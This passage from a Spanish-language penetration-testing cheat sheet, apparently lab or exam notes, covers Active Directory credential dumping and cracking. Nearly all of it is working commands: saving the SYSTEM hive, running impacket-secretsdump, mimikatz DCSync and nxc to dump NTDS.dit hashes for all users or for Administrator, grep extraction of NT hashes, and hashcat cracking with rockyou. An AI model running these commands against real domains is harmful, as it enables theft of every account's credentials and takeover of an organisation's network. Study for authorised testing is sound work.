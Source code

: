 	# necesitamos guardar también SYSTEM para desencriptar la información
	reg.exe save hklm\system c:\system.bak
	# en la pwnbox:
	impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL 
	```
### Con mimikatz
```powershell
# Todo ntds.dit
lsadump::dcsync
# o si queremos volcar la información de un solo usuario
lsadump::dcsync /user:corp\Administrator
```
### Con `secretsdump`
```bash
# Todo ntds.dit
impacket-secretsdump -just-dc corp.com/$username:$password@$dcip
# Un solo usuario
impacket-secretsdump -just-dc-user Administrator corp.com/$username:$password@$dcip
```
### Con `nxc` 
```
nxc smb $dcip -u $username -p $password --ntds
```

---

# Ataques Posteriores

## Fuerza Bruta sobre Hashes NT
Puede tener sentido para reutilizar contraseñas posteriormente en otros servicios  o si hay políticas que bloquean Pth
### Extraer NTLM hashes de `secretsdump.txt`
Suponiendo que el archivo `secretsdump.txt` es
```bash
#Todos los hashes
grep -oP '(?<=aad3b435b51404eeaad3b435b51404ee:)[a-f0-9]{32}' secretsdump.txt > hashes.txt 
# hash de Administrator sin salto de línea al final
cat secretsdump.txt| grep Administrator | grep -oP '(?<=aad3b435b51404eeaad3b435b51404ee:)[a-f0-9]{32}' | tr -d '\n'> hashAdmin
```

### Fuerza bruta con `hashcat`
```
hashcat -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt
```

---